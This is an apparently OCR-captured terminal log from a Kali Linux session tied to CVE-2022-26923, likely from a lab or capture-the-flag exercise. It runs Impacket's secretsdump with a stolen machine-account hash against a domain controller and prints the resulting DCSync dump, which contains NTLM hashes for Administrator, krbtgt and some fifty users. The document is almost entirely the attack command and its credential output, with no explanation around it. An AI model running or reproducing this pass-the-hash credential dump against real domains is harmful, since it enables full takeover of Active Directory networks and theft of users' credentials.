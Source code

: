 ```
               2 Dir(s)  51,879,473,152 bytes free

┌──(witty㉿kali)-[~/Downloads/CVE-2022-26923]
└─$ /usr/share/doc/python3-impacket/examples/secretsdump.py 'lunar.eruca.com/LUNDC$@lundc.lunar.eruca.com' -hashes :14fc9b5814def64289bb694f6659c733
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:400da5ca40476e5aa7d2dbf542c6e5c3:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a3eb1bfbc55f798d7d38be7b92a8a140:::
vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
gblake:1107:aad3b435b51404eeaad3b435b51404ee:fbfb5b320d017c9e3d3c634aaf4e54fd:::
lcarr:1108:aad3b435b51404eeaad3b435b51404ee:8825361f72915b1bf8dd0657027a9f7d:::
nmitchell:1109:aad3b435b51404eeaad3b435b51404ee:01db65871ad70a46a71afaf5bc9f0d27:::
ahughes:1110:aad3b435b51404eeaad3b435b51404ee:f89091b07e744e2454b1791bfd7e2ce2:::
iperry:1111:aad3b435b51404eeaad3b435b51404ee:8774f706e84284f8754f5aa7c4e0e939:::
lnorth:1112:aad3b435b51404eeaad3b435b51404ee:3500cc65d9919afc8c705af8b7531186:::
pmclean:1113:aad3b435b51404eeaad3b435b51404ee:e615cb3c4e870d63b50a62bf608452ee:::
dwright:1114:aad3b435b51404eeaad3b435b51404ee:05229ba25d66565f3759f682ba07c64f:::
vbennett:1115:aad3b435b51404eeaad3b435b51404ee:1aa365cc5adef169cfb52d7bdc5bce34:::
dpatel:1116:aad3b435b51404eeaad3b435b51404ee:8e1c1cfeb61921e3b4f761dd5b873e3c:::
rquinn:1117:aad3b435b51404eeaad3b435b51404ee:75435037599b7ad7f9180c04fbce2dfa:::
kwilson:1118:aad3b435b51404eeaad3b435b51404ee:4e3b2cf9b4386039b956a56ffacc13eb:::
gbibi:1119:aad3b435b51404eeaad3b435b51404ee:573aeb9a20ee5c275bf8d3b6bd445a59:::
scharlton:1120:aad3b435b51404eeaad3b435b51404ee:d21dc2ddb9edb61761ab6a0e34893a5f:::
vmartin:1121:aad3b435b51404eeaad3b435b51404ee:cb6cac268bda8fe37d921219ccf5ebe6:::
obaker:1122:aad3b435b51404eeaad3b435b51404ee:93f117d41b4b83785c1dbb9a33f8b8eb:::
jwebster:1123:aad3b435b51404eeaad3b435b51404ee:0f34d138ce347c237a793130ac04efda:::
dtaylor:1124:aad3b435b51404eeaad3b435b51404ee:619bdd254b904ee9829e28fbd97a0cf9:::
nwatts:1125:aad3b435b51404eeaad3b435b51404ee:007dcbfe7f14697be9ca69257e560f44:::
aroberts:1126:aad3b435b51404eeaad3b435b51404ee:46044d39258618f5771aa5e525562c07:::
jnorman:1127:aad3b435b51404eeaad3b435b51404ee:dff5d51c56eace216e311ae046a93b85:::
dobrien:1128:aad3b435b51404eeaad3b435b51404ee:163ecfb4468f7a411045f982c597b8a9:::
jowens:1129:aad3b435b51404eeaad3b435b51404ee:bf076c411f04220a685b61cf4ba1b599:::
avaughan:1130:aad3b435b51404eeaad3b435b51404ee:e443c6b00f6f3189ec300fa88471147e:::
gclayton:1131:aad3b435b51404eeaad3b435b51404ee:8f58f8420dd6305099f08fb2281743ee:::
lreynolds:1132:aad3b435b51404eeaad3b435b51404ee:1618d1c5d271a6cbc7e365786cd0be76:::
rarmstrong:1133:aad3b435b51404eeaad3b435b51404ee:59704080ece75632e8e4b5742c70d939:::
roconnor:1134:aad3b435b51404eeaad3b435b51404ee:1085189f705d864aec247f85d52e708d:::
cward:1135:aad3b435b51404eeaad3b435b51404ee:2da4a33ac9e76f6bc4b87b2b4c8f83a1:::
mcarter:1136:aad3b435b51404eeaad3b435b51404ee:c075739e0079bdb18762185f932ee7a7:::
mbennett:1137:aad3b435b51404eeaad3b435b51404ee:4ec61822b248156644b478091b36ccd4:::
epotter:1138:aad3b435b51404eeaad3b435b51404ee:618395c259b5fdc7a932ee76840e991b:::
srichards:1139:aad3b435b51404eeaad3b435b51404ee:011a867b5d2c9495219adb81449f43eb:::
mphillips:1140:aad3b435b51404eeaad3b435b51404ee:f294426a5a3cfdea7fbdd647a658068b:::
twatkins:1141:aad3b435b51404eeaad3b435b51404ee:2ef6834578807b6e7b188e7c2317b446:::
sfrancis:1142:aad3b435b51404eeaad3b435b51404ee:db1680338d03e6d3df15841d1c355f87:::
kwalters:1143:aad3b435b51404eeaad3b435b51404ee:d331a3b1de670a3f74942c2dfb40ff13:::
gbuckley:1144:aad3b435b51404eeaad3b435b51404ee:0332adb333e00933e4a40135d54faa4f:::
jsaunders:1145:aad3b435b51404eeaad3b435b51404ee:3bc3f3f91f864c34ecafe9b56b6af52c:::
rprice:1146:aad3b435b51404eeaad3b435b51404ee:f3b5b0470403e10d7c05188b027bab5b:::
ftalbot:1147:aad3b435b51404eeaad3b435b51404ee:8acc8349910db36a48059972f0559a09:::
ajackson:1148:aad3b435b51404eeaad3b435b51404ee:975b4ff7dfcbd466d2978fa826798f8a:::
mstokes:1149:aad3b435b51404eeaad3b435b51404ee:2c3118f42dbc6b6ed384c0e770c9a5ce:::
mroberts:1150:aad3b435b51404eeaad3b435b51404ee:6f0c609a133554c1642395faadc0336e:::
nwong:1151:aad3b435b51404eeaad3b435b51404ee:44936fe8514f3577db8d217f69f2ebf7:::
bdaniels:1152:aad3b435b51404eeaad3b435b51404ee:3da3f89e890dad186ddbd68d6c98c5b3:::
wpage:1153:aad3b435b51404eeaad3b435b51404ee:73dbd3b16760a5d417a5de825ca1f5b5:::
jhill:1154:aad3b435b51404eeaad3b435b51404ee:2310f0a1e7ac84d2e1dee4eca7985db7:::
whunter:1155:aad3b435b51404eeaad3b435b51404ee:a218c7f63768e71e307e8000f0a14a4e:::
```